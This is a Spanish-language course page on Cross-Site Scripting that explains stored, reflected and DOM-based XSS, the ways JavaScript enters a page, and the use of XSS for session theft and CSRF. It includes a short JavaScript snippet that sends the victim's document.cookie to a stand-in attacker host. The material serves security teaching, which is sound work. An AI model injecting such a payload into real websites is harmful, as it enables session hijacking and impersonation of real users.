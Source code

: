 ```yaml
---
title : "Cross-Site Scripting"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 030
---
```


El Cross-Site Scripting, o XSS (incluido en el punto 3 del OWASP Top 10), se refiere a una clase de vulnerabilidades que
intentan introducir código JavaScript en un sitio web, el cual será ejecutado en el navegador de otros usuarios.
Dependiendo de la aplicación en específico, las repercusiones de esto varían desde meras molestias hasta
la completa ruptura de confidencialidad e integridad del sistema.

Existen 3 tipos:
* **Almacenado**: El payload queda almacenado en algún lado y no es necesario estar activamente atacando a la víctima.
  Una vez que ella acceda a este, se ejecutará el código malicioso.

* **Reflejado**: El payload no se almacena permanentemente, sino que viene codificado en alguna variable
  (como un parámetro GET).

* **DOM**: Este tipo de XSS no puede ser ejecutado por medio de variables ni datos almacenados, sino que se debe
realizar una serie de acciones específicas en el mismo navegador de la víctima.

## JavaScript

JavaScript (JS) es un lenguaje de programación orientado a objetos que usualmente se utiliza para añadir
componentes dinámicas a un sitio web. [Aquí](https://www.w3schools.com/js/DEFAULT.asp)
pueden encontrar un tutorial de JS si lo necesitan.
El código JS en una página se ejecuta en el navegador del usuario, no en el servidor.
Existen varias formas _"oficiales"_ de insertar JS en un sitio. El primero es tener el código directamente en
el HTML, delimitado por tags `<script></script>`, por ejemplo:

    <html>
        <head>
            <script>
                ...code...
            </script>
        </head>
    </html>

La otra forma es hacer una referencia a un archivo que contenga el código, como por ejemplo:

    <html>
        <head>
            <script src="/code.js"></script>
        </head>
    </html>

Finalmente, se puede introducir JS bajo ciertos eventos, como `onclick`, `onerror`, `onmouseover`, etc.

    <html>
        <body>
            <button onclick="...code..."></button>
        </body>
    </html>

Existen otras formas de introducir código JS a un sitio web, pero se utilizan más que nada en ataques donde las
formas comunes están siendo bloqueadas o filtradas. Estas se escapan del ámbito de este curso, pero si están
interesados, pueden revisar la
[guía de evasión de filtros XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) de OWASP.

## Ejemplos

Uno de los usos más peligrosos de este tipo de ataques es el robo de sesiones. El código introducido toma la
cookie de sesión de la víctima y se la envía al atacante. Luego él puede simplemente copiar esta cookie en
su navegador, con lo cual obtiene acceso autenticado como la víctima. El código a continuación logra hacer esto:

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://hacker.com/", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("cookie=" + document.cookie);

Otro uso es el Cross-Site Request Forgery (CSRF). Estos ataques intentan impersonar a la víctima, enviando
consultas en su nombre. Esto funciona ya que las consultas hechas a través de JavaScript también llevan las cookies
y parámetros de sesión del usuario, por lo que el atacante tiene el potencial de ganar los mismos permisos que
la víctima. Esto se podría utilizar, por ejemplo, para realizar acciones en nombre del administrador, con lo cual
crear otro usuario con permisos de administrador.


